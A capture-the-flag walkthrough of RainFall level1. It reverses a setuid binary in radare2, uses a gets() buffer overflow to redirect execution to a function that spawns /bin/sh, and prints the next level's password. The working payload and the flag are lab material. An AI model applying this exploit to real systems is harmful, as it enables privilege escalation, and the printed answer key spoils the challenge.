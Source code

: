 # Level1
  
List the files will show us 'level1' executable
```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$
```
The program wait an input and quit after press enter
```
level1@RainFall:~$ ./level1
a
level1@RainFall:~$ ./level1 test
423
level1@RainFall:~$
```
Let's analyze it with radare2, the command `pxc` show hexdump with comments
```
$ r2 level1
 -- What do you want to debug today?
[0x08048390]> pxc
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF  comment
0x08048390  31ed 5e89 e183 e4f0 5054 5268 1085 0408  1.^.....PTRh....  ; eip  ; [13] -r-x section size 444 named .text
0x080483a0  68a0 8404 0851 5668 8084 0408 e8cf ffff  h....QVh........
0x080483b0  fff4 9090 9090 9090 9090 9090 9090 9090  ................
0x080483c0  5589 e553 83ec 0480 3dc4 9704 0800 753f  U..S....=.....u?  ; sym.__do_global_dtors_aux
0x080483d0  a1c8 9704 08bb b896 0408 81eb b496 0408  ................
0x080483e0  c1fb 0283 eb01 39d8 731e 8db6 0000 0000  ......9.s.......
0x080483f0  83c0 01a3 c897 0408 ff14 85b4 9604 08a1  ................
0x08048400  c897 0408 39d8 72e8 c605 c497 0408 0183  ....9.r.........
0x08048410  c404 5b5d c38d 7426 008d bc27 0000 0000  ..[]..t&...'....
0x08048420  5589 e583 ec18 a1bc 9604 0885 c074 12b8  U............t..  ; sym.frame_dummy
0x08048430  0000 0000 85c0 7409 c704 24bc 9604 08ff  ......t...$.....
0x08048440  d0c9 c390 5589 e583 ec18 a1c0 9704 0889  ....U...........  ; sym.run
0x08048450  c2b8 7085 0408 8954 240c c744 2408 1300  ..p....T$..D$...
0x08048460  0000 c744 2404 0100 0000 8904 24e8 defe  ...D$.......$...
0x08048470  ffff c704 2484 8504 08e8 e2fe ffff c9c3  ....$...........
0x08048480  5589 e583 e4f0 83ec 508d 4424 1089 0424  U.......P.D$...$  ; sym.main
[0x08048390]>
```
We can see that there is two principal function : `main` and `run`  
Run `aaa` command before prompt or patch to analyze all referenced code. This step is necessary before decompile both functions :
```
[0x08048390]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x08048390]>
```
Now we can decompile both functions with side assembly with the command `pdda`.  
*The `s` command in radare2 is used to "seek" to a spot in memory*
```
[0x08048390]> s sym.run
[0x08048444]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level1 @ 0x8048444 */
                                                 | #include <stdint.h>
                                                 |
    ; (fcn) sym.run ()                           | int32_t run (void) {
                                                 |     size_t size;
                                                 |     size_t nitems;
                                                 |     FILE * stream;
    0x08048444 push ebp                          |
    0x08048445 mov ebp, esp                      |     
    0x08048447 sub esp, 0x18                     |
    0x0804844a mov eax, dword [0x80497c0]        |     eax = stdout;
    0x0804844f mov edx, eax                      |     edx = stdout;
    0x08048451 mov eax, 0x8048570                |     eax = "Good... Wait what?\n";
    0x08048456 mov dword [esp + 0xc], edx        |     *((esp + 0xc)) = edx;
    0x0804845a mov dword [esp + 8], 0x13         |     *((esp + 8)) = 0x13;
    0x08048462 mov dword [esp + 4], 1            |     *((esp + 4)) = 1;
    0x0804846a mov dword [esp], eax              |
    0x0804846d call 0x8048350                    |     fwrite (ebp);
    0x08048472 mov dword [esp], 0x8048584        |
    0x08048479 call 0x8048360                    |     system ("/bin/sh");
    0x0804847e leave                             |
    0x0804847f ret                               |     return eax;
                                                 | }
[0x08048444]>
```
This function use `fwrite` to display "Good... Wait what?\n" in the standard output stream (stdout).  
Then execute the shell command `/bin/sh` using `system`. 
```
[0x08048444]> s main
[0x08048480]> pdda
    ; assembly                               | /* r2dec pseudo code output */
                                             | /* level1 @ 0x8048480 */
                                             | #include <stdint.h>
                                             |
    ; (fcn) main ()                          | int32_t main (void) {
                                             |     char * s;
    0x08048480 push ebp                      |
    0x08048481 mov ebp, esp                  |
    0x08048483 and esp, 0xfffffff0           |
    0x08048486 sub esp, 0x50                 |
    0x08048489 lea eax, [esp + 0x10]         |     eax = esp + 0x10;
    0x0804848d mov dword [esp], eax          |
    0x08048490 call 0x8048340                |     gets (eax);
    0x08048495 leave                         |
    0x08048496 ret                           |     return eax;
                                             | }
[0x08048480]>
```
The `main` function uses gets to receive user input who is vunerable to buffer overflow exploit.  
The `main` function uses an unprotected `gets()` that will allow us to perform a buffer overflow attack.  
  
By overwriting the RET value with the address of run() we can force its execution.  
```
    0x08048486 sub esp, 0x50                 |
```
The `main` also have a buffer of 0x50 (80), let's test with a buffer this length
```
level1@RainFall:~$ python -c 'print "a" * 80' > /tmp/exploit
level1@RainFall:~$ gdb ./level1 
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
(gdb)
```
There is a segfault because access to the address 0x61616161 is not authorized. This address corresponds to the last 4 bytes characters, this is the address of the EIP register.  
Instead of characters 'a', we will overwrite the return address by passing the adress of the `run()` function : 0x08048444 (reversed for little-endian).
```
level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```
But as we need to execute this through a pipe, `/bin/sh` is non-interactive and will automatically shutdown because it will try to read stdin and will see EOF. It exits, because that's what programs that get EOF on input are supposed to do.  
We have a little trick with cat to keep stdin open, so `/bin/sh` will keep listening to stdin and execute whatever is sent through it.  
*[Open a shell from a pipelined process](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process) *
```
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
pwd
/home/user/level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
level1@RainFall:~$ su level2
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
level2@RainFall:~$
```
Level1 passed!
